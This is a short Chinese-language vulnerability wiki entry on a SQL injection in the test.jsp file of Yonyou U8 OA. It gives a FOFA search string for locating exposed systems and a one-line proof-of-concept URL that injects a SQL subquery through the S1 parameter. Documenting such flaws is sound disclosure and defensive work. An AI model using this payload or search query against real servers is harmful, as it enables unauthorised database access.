

# 用友 U8 OA test.jsp SQL注入漏洞

## 漏洞描述

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞

## 漏洞影响

> 用友 U8 OA 

## FOFA

> "用友U8-OA"

## 漏洞复现

可参考 文章

[致远OA A6 test.jsp SQL注入漏洞](http://wiki.xypbk.com/Web%E5%AE%89%E5%85%A8/%E8%87%B4%E8%BF%9Coa/%E8%87%B4%E8%BF%9COA%20A6%20test.jsp%20sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md)


登录页面如下


POC

```
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```



利用方法与致远OA 的SQL注入类似